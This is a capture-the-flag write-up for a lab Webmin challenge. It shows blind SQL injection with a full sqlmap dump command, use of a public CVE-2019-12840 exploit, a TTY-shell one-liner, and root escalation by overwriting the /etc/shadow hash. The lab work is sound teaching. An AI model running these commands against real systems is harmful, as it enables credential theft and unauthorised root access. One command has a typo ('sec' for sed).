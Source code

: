 Desciprtion: `As a manager, I implemented a feedback system in our Webmin application to gather customer feedback and improve our services. However, during its implementation, the system Exposed some sensitive information of our employees. Could you help me identify and address these Common Vulnerabilities?`

### 1. Analysis first web application
- We have a feedback form. Let's check the source code first.

![sourcehtml](sourcehtml.png)

- We can see some comments about SQL query, most likely this web application has SQL injection vuln.
- Do a simple test with `'`.

![firstpart](firstpart.png)
- That's great, looks like we're on the right track.
- Continue to try to dump table data from the database. It is Blind-SQL Injection, we can write a simple script to dump the data but we already have a tool - *sqlmap*. `(Try to make up a code that exploits the vulnerability to show that you are a pro or you will just be a script kiddie:)))`
- Here is sqlmap command:
```
sqlmap -u http://192.168.26.128:5000/api/check_username --method=POST --data '{"username":"admin"}' -p username --headers='Content-Type: application/json' --dump
```
- Output:

![dumpdata.png](dumpdata.png)
- Now we got credentials, let's go to Webmin.
After login, we got a notice that

 ![webmindashboard](webmindashboard.png)
 - Search vuln for that webapp with this version, and we got a CVE `[CVE-2019-12840](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12840)`
 - We already know that it has a CVE, and the next simple work is find a POC to exploit that CVE. (https://github.com/KrE80r/webmin_cve-2019-12840_poc)
 - Here I built this server on my local machine so that I do not need to NAT port or use TCP Tunnel. If you are not in the same network with server, you can use some TCP Tunnel to forward the connection to your IP (Example: ngrok, localhost.run,...)
![exploit.png](exploit.png)
- After getting the shell, let's spawn tty shell first
```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
- Look around, we got the 2nd part of the flag, but we are myuser, next step is become root.

![secondpart.png](secondpart.png)
- We have a hint that `Can you find my shadow ???` Maybe relate to /etc/shadow, let's check.

![shadowpermission.png](shadowpermission.png)
- We had read and write permission on `/etc/shadow`.
- In `shadow` file do not contain root password hash so we can not crack it, but we have write permission, try to make a password hash with `mkpasswd` then insert it into `shadow` file.
```
mkpasswd -m sha-512 new_password
```

![passwdhash.png](passwdhash.png)
Next step: insert that hash into shadow file between 2 first semicolon. The result wil be like this:
```
root:password_hash:.....
```
- Text editors are really stupid, we can use sed -i or vim -c to replace the text.
```
Example command:
sec -i 's/old_text/new_text/g' /etc/shadow
or
vim -c '%s/old_text/new_text/g' -c 'q' /etc/shadow
```
*Note: Remember to escape some special character in password hash like $*

![replacepasswdhash.png](replacepasswdhash.png)
- Next step is login into root with you password, so ez :))

![getroot.png](getroot.png)
- Final step, read the flag

![thirdpart.png](thirdpart.png)

```
Flag: FIA{$QL_!nj3ct10n_CVE_3xpl01t_@and_pr1v!l3g3_3scal@tion_1s_s0_fUn!}
```
